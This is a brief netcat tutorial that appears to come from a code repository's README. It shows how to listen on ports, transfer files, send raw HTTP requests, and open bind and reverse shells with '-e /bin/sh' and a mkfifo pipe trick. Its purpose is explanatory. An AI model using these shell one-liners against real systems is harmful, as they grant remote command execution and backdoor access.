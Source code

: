Netcat
======

Netcat is a utility to do anything involving tcp/udp or any unix socket.

## Create simple network to send messages

On server:
```
    nc -l -p 1101
    # server will tcp port on port 1101  
        
    -l  listen
    -p  port
    -w  timeout in seconds
```

On client:
```
    nc <server ip> 1101
```
This will create a simple connection between server and
client.

## Transfer files using netcat
On server:
```
    nc -l -p 1101 < <file>
    # Server will server <file> on port 1101
    
    -N  disconnect after file transfer
```
On client:
```
    nc <server ip> 1101 > <out file>
```

Server will send <file> only once. File can also be transferred
from client to server.

## Sending shell commands through netcat

Gnu netcat does not ship with exec command feature. Get freebsd netcat
 or nmap ncat for this feature.

### Executing a command on server
On server:
```
    nc -l -p 1101 -e /bin/echo "hello netcat"

    -e  pecify program to exec after connect
```
On client:
```
    nc <server ip> 1101
```

`/bin/echo "hello netcat"` will run on server and result will be
shown to client.

### Sending shell

Send shell to client. Client can run commands (remotely) on the server. 
SSH is better for remote shell access.

On server:
```
    nc -l -p 1101 -e /bin/sh
        
    -e  pecify program to exec after connection
```
```
On client:
    $ nc <server ip> 1101 
```


### Getting reverse shell

On server:
```
    $ nc -l -p 1101
```
On client:
```
    $ nc <server ip> 1101 -e /bin/sh
```

Server gets client shell. Server can execute commands on
client.

### Reverse shell on any netcat

On server first create a named pipe file using `mkfifo` [see man page].
```
    $ mkfifo /tmp/fifo_
```
then

On server:
```
    cat /tmp/fifo_ | /bin/sh -i 2>&1 | nc -l -p 1101 > /tmp/fifo_
```
On client:
```
    nc <server ip> 1101 
```

## HTTP request
```
    $ echo -e "GET / HTTP/1.0\r\n example.com:80\r\n\r\n" | nc example.com 80 
```

## Further reading:

- Netcat manpage
- https://en.wikipedia.org/wiki/Netcat

